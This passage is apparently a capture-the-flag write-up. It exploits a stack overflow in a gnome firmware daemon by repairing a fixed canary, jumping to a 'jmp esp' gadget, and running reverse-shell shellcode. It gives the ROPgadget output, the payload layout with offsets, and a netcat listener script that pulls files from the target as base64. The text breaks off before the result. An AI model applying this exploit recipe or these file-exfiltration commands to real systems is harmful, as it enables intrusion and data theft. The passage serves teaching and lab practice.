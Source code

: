 I must say that I liked this idea of introducing how to repair a stack canary without the process of leaking it (which is required for regular random canaries). Checking the binary with the "checksec" command of PEDA, I saw that it had no other protection mechanisms activated. Assuming that the system has ASLR activated, we just had to defeat that and repair the canary to exploit it.

First I got some shellcode. I have heard that real hackers write their own, but I have also heard that it's unnecessary to invent the wheel twice, so I grabbed a reverse shell shellcode from Shell Storm. Secondly, to defeat the ASLR, I wanted a "jmp esp" gadget. For this I needed a compiled version of the binary. Luckily it was found in "/usr/bin/sgstatd" of the gnome firmware. Running the tool "ROPGadget" on this binary gave me the gadget address.

>  ROPgadget --binary sgstatd  
>   
> 	...  
> 	0x0804936b : jmp esp  
> 	...  

I also needed to know exactly where the canary ended up in relation to the buffer. This was done by running the binary locally and sending a payload of blocks of four letters, i.e. "AAAABBBBCCCC..." etc. and then breaking at the "movl -4(%ebp)" instruction. By doing this, I fiured out that I needed 103 bytes of whatever followed by the canary value "0xe4ffffe4". I then did the same thing to figure out exactly where there the saved return address was located to know where to put the address to "jmp esp".

As a final preparation, I needed to setup the reverse shell listener. I wanted to send a command to give me back one file. Again, to make the transfer robust, I wanted to base 64 encode it. So, I set up netcat to listen on port 55555 and gave it the command "cat <file> | base64" and then piped the response to "base64 -d" to decode the data on my side. I had a script which looked like this.

{% highlight shell %}
#!/bin/sh  
echo "cat /gnome/www/files/20151215161015.zip | base64" | nc -l 55555 | base64 -d > 20151215161015.zip  
echo "cat /gnome/www/files/factory_cam_5.zip | base64" | nc -l 55555 | base64 -d > factory_cam_5.zip  
echo "cat /gnome/www/files/gnome.conf | base64" | nc -l 55555 | base64 -d > gnome.conf  
echo "cat /gnome/www/files/gnome_firmware_rel_notes.txt | base64" | nc -l 55555 | base64 -d > gnome_firmware_rel_notes.txt  
echo "cat /gnome/www/files/sgnet.zip | base64" | nc -l 55555 | base64 -d > sgnet.zip  
echo "cat /gnome/www/files/sniffer_hit_list.txt | base64" | nc -l 55555 | base64 -d > sniffer_hit_list.txt  
{% endhighlight  %}

Now I created and sent the actual payload which consisted of the following parts:

1. 103 bytes with the value "A"
2. The value 0xe4ffffe4 packed as 4 bytes
3. 4 bytes of padding with the value "A"
4. 4 bytes with the address to "jmp esp"
5. The shellcode, roughly 70 bytes long
6. 100 bytes with the value "A" to make sure that the read function read 200 bytes and returned quickly.

When I sent this, the following happened:

